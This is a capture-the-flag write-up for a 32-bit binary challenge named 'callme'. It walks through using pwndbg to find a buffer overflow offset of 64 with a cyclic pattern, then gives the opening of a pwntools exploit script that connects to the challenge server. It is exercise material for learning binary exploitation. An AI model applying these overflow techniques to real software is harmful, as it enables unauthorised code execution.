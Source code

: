 There's function `callme` which we will need to call to get the flag!

Let's open it up in gdb and start taking some notes.

```bash
└─$ gdb -q ./callme 
pwndbg> info functions 
All defined functions:

Non-debugging symbols:
...
0x0804875e  callme # Function To Call
0x0804878c  main 
...
pwndbg> disass main
...
   0x08048808 <+124>:   test   eax,eax # Check Value Of `functionToCall`
... 
pwndbg> cyclic
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> run
...
who let the dogs out:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
...
*EIP  0x8048808 (main+124) ◂— test eax, eax
...
pwndbg> p/x $eax # Check Value Of `functionToCall`
$1 = 0x61616171

└─$ unhex 61616171 # Hex -> Ascii
aaaq                                                                                                                                                                                                                  

└─$ cyclic -l qaaa # Reversed Because Of LSB
64 # Offset
```

### Solution

```py
#!/usr/bin/env python3
from pwn import *

exe = './callme'
elf = context.binary = ELF(exe)
context.log_level = 'INFO' # 'DEBUG'


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("139.144.184.150", 3333)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

```